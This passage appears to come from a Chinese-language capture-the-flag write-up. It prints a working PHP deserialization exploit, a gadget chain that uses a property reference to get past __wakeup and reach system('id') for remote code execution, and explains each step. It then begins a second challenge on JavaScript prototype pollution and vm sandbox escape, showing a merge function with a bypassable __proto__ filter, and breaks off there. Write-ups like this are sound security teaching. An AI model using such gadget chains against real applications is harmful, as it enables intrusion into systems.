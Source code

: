 ```php
}

class DataObject {
    public $storage;
    public $data;
}

$helper = new Helper();
$helper->funcs = array('clean' => 'system');

$cache1 = new Cache();
$cache1->expired = False;

$cache2 = new Cache();
$cache2->helper = $helper;
$cache2->key = 'id';

$storage = new Storage();
$storage->store = &$cache2->expired;

$dataObject = new DataObject();
$dataObject->data = array('key1' => $cache1, 'key2' => $cache2);
$dataObject->storage = $storage;

echo serialize($dataObject);
?>
```

首先我们往 dataObject 的 data 里面放入了两个 Cache 实例: cache1 和 cache2

其中 cache2 指定了 helper, 其 key 设置成了要执行的命令 `id`, helper 的 funcs 数组放入了 system 字符串

然后我们让 storage 的 store 属性成为 cache2 expired 属性的引用

这样, 在反序列化时, 首先会调用两个 Cache 的 `__wakeup` 方法, 将各自的 expired 设置为 False

然后调用 dataObject 的 `__destruct` 方法, 从而调用 Storage 的 `__set` 方法

Storage 首先将 store (即 cache1 的 expired 属性) 初始化为一个空数组, 然后存入 cache1

此时, store 不为空, 那么也就是说 cache1 的 expired 属性不为空

然后来到 cache2, storage 的 `__set` 方法调用它的 expired 方法, 进入 if 判断

因为此时 cache2 的 expired 字段, 也就是上面的 store, 已经被设置成了一个数组, 并且数组中存在 cache1 (不为空), 因此这里 if 表达式的结果为 True

最后进入 helper 的 clean 方法, 执行 `system('id');` 实现 RCE

### ez_sandbox

考察简单的 JavaScript 原型链污染绕过 + vm 沙箱逃逸

代码在注册和登录的时候使用了 `clone(req.body)`

```javascript
function merge(target, source) {
    for (let key in source) {
        if (key === '__proto__') {
            continue
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
    return target
}

```